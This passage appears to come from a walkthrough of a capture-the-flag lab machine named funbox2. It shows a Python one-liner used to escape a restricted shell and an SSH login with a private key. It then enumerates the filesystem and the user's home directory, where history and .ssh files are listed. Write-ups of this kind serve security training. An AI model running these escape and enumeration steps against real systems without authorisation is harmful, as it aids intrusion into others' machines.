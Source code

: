 [GCC 8.4.0] on linux

Type "help", "copyright", "credits" or "license" for more information.

>>> 

Python3 upgrade to bash

python3 -c 'import os; os.system("/bin/bash");'

now check for movement

NOPE. Python 3 is a sudo command

I'll try to reconnect via SSH and run a command on startup

ssh -i id_rsa tom@192.168.199.107 -t bash

Works

tom@funbox2:~$ ls

local.txt

tom@funbox2:~$ cd /

tom@funbox2:/$ ls

bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old

boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz

tom@funbox2:/$ cd root/

bash: cd: root/: Permission denied

tom@funbox2:/$ 

Check out all the files in home

tom@funbox2:~$ ls -alt

total 48

-rw------- 1 tom  tom   239 May 13 12:20 .bash_history

drwxr-xr-x 5 tom  tom  4096 May 13 12:16 .

-rw------- 1 tom  tom    57 May 13 12:16 .python_history

drwx------ 2 tom  tom  4096 May 13 12:10 .cache

-rw-r--r-- 1 tom  tom    33 May 13 08:17 local.txt

-rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history

drwx------ 2 tom  tom  4096 Jul 25  2020 .ssh

drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg

drwxr-xr-x 3 root root 4096 Jul 25  2020 ..

-rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout
